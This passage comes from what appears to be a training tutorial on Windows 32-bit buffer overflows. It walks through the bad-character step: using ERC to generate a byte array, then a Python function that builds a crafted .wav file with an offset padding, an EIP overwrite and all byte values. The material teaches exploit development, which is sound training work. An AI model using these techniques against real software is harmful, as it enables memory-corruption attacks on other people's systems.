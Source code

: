 ***

### Generating All Characters

To identify bad characters, we have to send all characters after filling the `EIP` address, which is after `4112` + `4` bytes. We then check whether any of the characters got removed by the program or if our input got truncated prematurely after a specific character.

To do this, we would need two files:

1. A `.wav` file with all characters to load into the program
2. A `.bin` file to compare with our input in memory

We can use `ERC` to generate the `.bin` file and generate a list of all characters to create our `.wav` file. To do so, we can use the `ERC --bytearray` command: ![ERC Byte Array](https://academy.hackthebox.com/storage/modules/89/win32bof\_erc\_bytearry.jpg)

This also creates two files on our Desktop:

* `ByteArray_1.txt`: Which contains the string of all characters we can use in our python exploit
* `ByteArray_1.bin`: Which we can use with `ERC` later to compare with our input in memory

***

### Updating our exploit

The next step would be to generate a `.wav` file with the characters string generated by `ERC`. We will once again write a new function `bad_chars()`, and use a similar code to the `eip_control()` function, but will use the characters under `C#` in `ByteArray_1.txt`. We will create a new list of bytes `all_chars = bytes([])`, and paste the characters between the brackets. We will then write to `chars.wav` the same `payload` from `eip_control()`, and add after it `all_chars`. The final function would look as follows:

Code: python

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```

Note how we added a `b` before `A` and `B` to turn them into bytes
